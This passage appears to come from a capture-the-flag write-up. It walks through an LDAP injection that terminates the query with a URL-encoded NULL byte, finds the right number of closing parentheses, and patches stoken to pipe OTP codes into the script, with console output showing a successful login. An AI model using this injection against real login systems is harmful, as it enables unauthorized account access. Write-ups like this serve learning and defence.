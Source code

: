 Assuming the LDAP query is something like: `(&(uid=user)(|(gid=root)(gid=adm))(token=*))`, it seems impossible to inject the query in a way that'll make the query valid and also skip the last part of the query. What I can do however is use a NULL character in the username so I can terminate the LDAP query wherever I want.

I modifed my earlier script to add an extra NULL byte at the end (URL encoded):
```python
data = {
			"inputUsername": urllib.quote(cmd)+'%00',
			"inputOTP": "12345",
		}
```

I just need to find how many parentheses are required to close the query:
```
# python ldapinject.py 
> ldapuser)
ldapuser%29%00

> ldapuser))
ldapuser%29%29%00

> ldapuser)))
ldapuser%29%29%29%00
Cannot login    
```

That last query was valid. What I do next is modify the script a little more so I can send a valid login request with the correct OTP:
```python
data = {
			"inputUsername": urllib.quote(cmd)+'%00',
			"inputOTP": str(sys.argv[1]),
		}
```

I recompiled `cli.c` in the stoken source code to use a hardcoded PIN of `0000` so I can pipe the token directly with user input. Yes I know you can pass a parameter to specify the PIN but I found out after, haha.

```c
if (get_pin && securid_pin_required(t) && (!strlen(t->pin) || opt_pin)) {
	xstrncpy(t->pin, "0000", 4);
}
```

This make using the injection script a bit easier:
```
# ./stoken
14780441

# python ldapinject.py $(./stoken)
> ldapuser)))
ldapuser%29%29%29%00
Login ok    
{'Content-Length': '2818', 'X-Powered-By': 'PHP/5.4.16', 'Set-Cookie': 'PHPSESSID=urdd46i8obcnkkso4glf66cic1; path=/', 'Expires': 'Thu, 19 Nov 1981 08:52:00 GMT', 'Keep-Alive': 'timeout=5, max=100', 'Server': 'Apache/2.4.6 (CentOS) OpenSSL/1.0.2k-fips mod_fcgid/2.3.9 PHP/5.4.16', 'Connection': 'Keep-Alive', 'Location': '/page.php', 'Pragma': 'no-cache', 'Cache-Control': 'no-store, no-cache, must-revalidate, post-check=0, pre-check=0', 'Date': 'Tue, 05 Feb 2019 02:20:43 GMT', 'Content-Type': 'text/html; charset=UTF-8'}
```
